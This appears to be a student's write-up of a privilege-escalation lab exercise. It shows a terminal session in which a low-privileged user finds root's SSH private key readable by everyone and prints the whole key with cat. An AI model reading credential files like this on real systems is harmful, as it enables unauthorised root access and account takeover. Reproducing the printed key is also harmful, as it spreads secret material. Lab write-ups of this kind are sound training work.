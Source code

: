### Question 2:
![](./attachments/Pasted%20image%2020221117133914.png)
*Hint: Don't forget to chmod*

```
user2@gettingstartedprivesc-483697-6d5d5f75bf-ft2br:/$ ls -lah /root/.ssh
total 20K
drwxr-x--- 1 root user2 4.0K Feb 12  2021 .
drwxr-x--- 1 root user2 4.0K Feb 12  2021 ..
-rw------- 1 root root   571 Feb 12  2021 authorized_keys
-rw-r--r-- 1 root root  2.6K Feb 12  2021 id_rsa
-rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
user2@gettingstartedprivesc-483697-6d5d5f75bf-ft2br:/$ cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
